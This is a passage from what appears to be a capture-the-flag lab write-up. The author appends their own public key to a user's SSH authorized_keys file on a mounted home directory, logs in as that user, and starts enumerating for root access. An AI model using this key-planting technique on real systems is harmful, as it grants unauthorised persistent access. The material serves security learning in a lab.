 This is actually jennifer’s homedir:

```

root@hacky:/mnt# ls -la
total 22
drwxr-x---  5 oxdf oxdf 4096 Oct 25 01:49 .
drwxr-xr-x 21 root root 4096 Feb  7 06:40 ..
lrwxrwxrwx  1 oxdf oxdf    9 Oct 28 02:59 .bash_history -> /dev/null
-rw-r--r--  1 oxdf oxdf  220 Sep 20 08:27 .bash_logout
-rw-r--r--  1 oxdf oxdf 3526 Sep 20 08:27 .bashrc
drwx------  3 oxdf oxdf 4096 Oct 25 01:44 .gnupg
-rw-r--r--  1 oxdf oxdf  807 Sep 20 08:27 .profile
drwx------  2 oxdf oxdf 4096 Dec  7 14:54 .ssh
-r--------  1 oxdf oxdf   33 Feb  7  2022 user.txt

```

I’ll write my public key into the `authorized_keys` file:

```

root@hacky:/mnt/.ssh# ls
authorized_keys
root@hacky:/mnt/.ssh# echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing" >> authorized_keys 

```

Now I can connect as jennifer:

```

oxdf@hacky$ ssh -i ~/keys/ed25519_gen jennifer@10.10.11.131
Linux flustered 4.19.0-18-amd64 #1 SMP Debian 4.19.208-1 (2021-09-29) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
jennifer@flustered:~$ 

```

## Shell as root

### Enumeration

#### General

There’s not much else on this host to find. jennifer’s home directory is relatively empty. The `netstat` doesn’t show any additional open ports (other than 3306, MySQL, which I don’t have creds for).
